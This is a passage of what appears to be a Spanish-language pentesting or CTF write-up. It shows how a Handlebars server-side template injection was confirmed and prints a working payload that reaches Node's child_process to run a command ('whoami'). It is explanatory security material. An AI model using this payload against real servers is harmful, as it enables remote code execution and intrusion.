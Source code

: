 Debería de ejecutar la operatorio '7 x 7' pero, en su lugar el mensaje de error muestra que si ha funcionado la inyección, y aparte de eso nos está mostrando 'root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler....'. Esto es bueno porque ahora sabemos que la plantilla se llama Handlebars.

> Aquí un muy buen recurso para indagar más en SSTI <a href="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejsl">Hacktricks</a>.


Donde como script para hacer pruebas a Node.js encontramos:

```js
{ {#with "s" as |string|}}
{ {#with "e"}}
{ {#with split as |conslist|}}
{ {this.pop}}
{ {this.push (lookup string.sub "constructor")}}
{ {this.pop}}
{ {#with string.split as |codelist|}}
{ {this.pop}}
{ {this.push "return require('child_process').exec('whoami');"}} ->>> nuestro comando a inyectar
{ {this.pop}}
{ {#each conslist}}
{ {#with (string.sub.apply 0 codelist)}}
{ {this}}
{ {/with}}
{ {/each}}
{ {/with}}
{ {/with}}
{ {/with}}
{ {/with}}
```

El cual debe ir en formato URL encode ya que viaja como parámetro en una petición web:

<div style="text-align: center;">